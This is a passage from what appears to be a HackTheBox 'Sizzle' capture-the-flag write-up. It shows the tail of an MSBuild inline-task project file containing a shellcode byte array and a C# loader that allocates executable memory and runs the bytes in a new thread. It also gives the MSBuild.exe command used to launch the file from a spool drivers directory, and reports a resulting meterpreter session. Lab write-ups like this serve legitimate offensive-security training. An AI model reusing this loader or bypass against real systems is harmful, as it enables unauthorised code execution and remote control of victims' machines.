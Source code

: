 ```
0x38,0x7c,0xfb,0x55,0xa3,0xd8,0xc2,0x53,0x1f,0x27,0x47,0x75,0x56,0xfc,0xcd,
0xc9,0x9e,0x08,0xfe,0x35,0x74,0x2a,0xf3,0x27,0x22,0xad,0x8e,0x41,0xde,0xb6,
0xf2,0xf2,0xe8,0xb7,0x82,0x3b,0x66,0x38,0x95,0x46,0x4e,0x35,0x75,0x48,0x86,
0xab,0xdd,0x43,0x08,0xc7,0xcd,0x29,0xac,0x20,0xb5,0x3a,0x75,0x5f,0x39,0x85,
0xf1,0xd4,0xd4,0xf6,0xb6,0x35,0x65,0xc4,0x57,0x05,0x69,0x90,0x9a,0xfb,0x18,
0xee,0x0d,0xd3,0x02,0xae,0x40,0x38,0xac,0xaa,0x40,0x4c,0x9c,0xc9,0x3a,0xca,
0x24,0x09,0xe7,0x0c,0x8c,0x68,0xb5,0x66,0x61,0x78,0xf2,0xd0,0x29,0xea,0x33,
0xeb,0xb5,0x4d,0xc4,0xc8,0x8e,0xf1,0x28,0xdf,0xed,0xee,0xe9,0x29,0xc5,0x91,
0xea,0x1f,0x7d,0x47,0xbd,0xf9,0xde,0x66,0x58 };


              
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\system32\spool\drivers\color\shellcode.xml`
![](/images/hackthebox/sizzle/37.png)
#### This time it worked and I got `meterpreter` !
![](/images/hackthebox/sizzle/38.png)
<hr>
### Kerberoasting, Privilege Escalation